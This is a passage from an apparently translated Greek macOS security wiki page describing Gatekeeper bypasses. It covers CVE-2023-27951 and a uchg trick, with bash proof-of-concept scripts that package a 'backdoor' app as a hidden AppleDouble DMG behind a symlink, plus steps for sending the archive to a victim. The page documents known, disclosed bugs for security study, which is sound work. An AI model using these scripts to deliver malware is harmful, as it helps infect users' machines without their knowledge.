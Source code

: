 Ανακαλύφθηκε ότι **το Google Chrome δεν ρύθμιζε το χαρακτηριστικό καραντίνας** σε κατεβασμένα αρχεία λόγω κάποιων εσωτερικών προβλημάτων του macOS.

### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

Τα αρχεία μορφής AppleDouble αποθηκεύουν τα χαρακτηριστικά ενός αρχείου σε ένα ξεχωριστό αρχείο που ξεκινά με `._`, αυτό βοηθά στην αντιγραφή των χαρακτηριστικών αρχείων **σε μηχανές macOS**. Ωστόσο, παρατηρήθηκε ότι μετά την αποσυμπίεση ενός αρχείου AppleDouble, το αρχείο που ξεκινά με `._` **δεν έλαβε το χαρακτηριστικό καραντίνας**.

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}

Η δυνατότητα δημιουργίας ενός αρχείου που δεν θα έχει οριστεί το χαρακτηριστικό καραντίνας, ήταν **δυνατό να παρακαμφθεί ο Gatekeeper.** Το κόλπο ήταν να **δημιουργηθεί μια εφαρμογή DMG** χρησιμοποιώντας τη σύμβαση ονοματοδοσίας AppleDouble (να ξεκινά με `._`) και να δημιουργηθεί ένα **ορατό αρχείο ως συμβολικός σύνδεσμος σε αυτό το κρυφό** αρχείο χωρίς το χαρακτηριστικό καραντίνας.\
Όταν **εκτελείται το αρχείο dmg**, καθώς δεν έχει χαρακτηριστικό καραντίνας, θα **παρακαμφθεί ο Gatekeeper.**
```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```
### uchg (από αυτή την [ομιλία](https://codeblue.jp/2023/result/pdf/cb23-bypassing-macos-security-and-privacy-mechanisms-from-gatekeeper-to-system-integrity-protection-by-koh-nakagawa.pdf))

* Δημιουργήστε έναν φάκελο που περιέχει μια εφαρμογή.
* Προσθέστε uchg στην εφαρμογή.
* Συμπιέστε την εφαρμογή σε ένα αρχείο tar.gz.
* Στείλτε το αρχείο tar.gz σε ένα θύμα.
* Το θύμα ανοίγει το αρχείο tar.gz και εκτελεί την εφαρμογή.
* Ο Gatekeeper δεν ελέγχει την εφαρμογή.
